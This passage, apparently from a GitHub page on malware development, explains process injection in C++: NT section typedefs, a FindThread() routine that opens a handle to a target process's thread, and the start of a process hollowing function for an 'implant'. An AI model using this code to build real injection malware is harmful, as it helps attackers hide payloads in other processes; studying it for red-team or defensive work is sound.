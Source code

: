 ```c++
	ULONG AllocationType,
	ULONG Win32Protect);
	
// http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FSECTION_INHERIT.html
typedef enum _SECTION_INHERIT {
	ViewShare = 1,
	ViewUnmap = 2
} SECTION_INHERIT, *PSECTION_INHERIT;	
```

#### Thread Targeting
After [process targeting](https://github.com/Wumbobfuscation/Wumbobfuscation/blob/main/Process%20Injection/Process%20Injection%20Template.md#process-targeting) has occurred, a custom `FindThread()` function takes in the targeted Process ID (PID) and uses [`CreateToolhelp32Snapshot()`](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot) is called with the `TH32CS_SNAPTHREAD` argument to generate a list of running threads within the target process. A `while` loop checks each entry (`thEntry`) of this list by calling [`Thread32Next()`](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-thread32next), and compares (`==`) the Process ID (PID) (`th32OwnerProcessID`) to the PID of the targeted process. When a matching PID is located, `FindThread()` calls [`OpenThread()`](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openthread) to return the handle of the corresponding thread.

Note that, in this example, `FindThread()` is not called within the `main()` function of the implant, only within the proceeding process hollowing function (`InjectVIEW`), where it returns the handle to the targeted thread.

```c++
// Credit: reenz0h (@sektor7net), RTO Malware Development Essentials course
HANDLE FindThread(int pid){

	HANDLE hThread = NULL;
	THREADENTRY32 thEntry;

	thEntry.dwSize = sizeof(thEntry);
    HANDLE Snap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
		
	while (Thread32Next(Snap, &thEntry)) {
		if (thEntry.th32OwnerProcessID == pid) 	{
			hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thEntry.th32ThreadID);
			break;
		}
	}
	CloseHandle(Snap);
	
	return hThread;
}
```

#### Process Hollowing
Note that this function begins by declaring a null handle (`hSection`) to the target section, a two null LPVOID and PVOID-type pointers (`pLocalView`, `pRemoteView`) which will eventually point to the injected payload, a handle to the targeted thread `hThread` returned by the custom `FindThread()` function, and a CLIENT_ID structure/type (`CLIENT_ID`) contained in the `typedef` statement above.
